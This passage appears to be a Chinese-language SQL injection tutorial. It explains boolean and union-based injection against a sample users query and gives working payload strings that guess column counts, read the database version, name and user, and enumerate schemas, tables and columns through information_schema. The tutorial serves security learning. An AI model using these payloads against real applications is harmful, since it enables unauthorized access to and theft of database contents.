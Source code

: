 布尔注入原理：

```sql
-- 原始SQL语句
mysql> SELECT first_name, last_name FROM users WHERE user_id = ''

-- 布尔注入解析
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' or 1=1 -- ' '
-- 说明：
-- 第一个‘：用于闭合前面的条件
-- or 1=1：得到一个恒真条件
-- -- ：将注释后面的所有语句
```



##### 基于union注入

​		union语句用于联合前面的select查询语句，合并查询更多信息。一般通过错误和布尔注入确认注入点后，便开始通过union语句来获取有效信息。

```sql
-- 猜测数据列数
' union select 1 -- '
' union select 1,2 -- '
' union select 1,2,3 -- '
' union select 1,2,3,4 -- '

-- union注入解析
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' union select 1 -- ' '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' union select 1,2 -- ' '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' union select 1,2,3 -- ' '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' union select 1,2,3,4 -- ' '

-- 获得当前数据库及用户信息
' union select version(),database() -- '
' union select user(),database() -- '

-- union注入解析
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' union select version(),database() -- ' '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' ' union select user(),database() -- ' '
-- 说明：
-- version()：获得数据库版本信息
-- database()：获得当前数据库名
-- usesr()：获得当前用户名

-- 查询数据库中所有表
information_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式；
元数据包括数据库名、表名、列数据类型、访问权限、字符集等基础信息

-- sql注入语句解析：
mysql> select * from information_schema.tables\G

-- 查询所有库名
'union select table_schema,1 from information_schema.tables -- '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' 'union select table_schema,1 from information_schema.tables -- ' '

-- 同时查询表名及对应库名
'union select table_schema,table_name from information_schema.tables -- '
mysql> SELECT first_name, last_name FROM users WHERE user_id = ' 'union select table_schema,table_name from information_schema.tables -- ' '

-- 查询数据表
'union select 1,column_name from information_schema.columns where table_name='users' -- '
'union select 1,column_name from information_schema.columns where table_name='USER_PRIVILEGES' -- '
```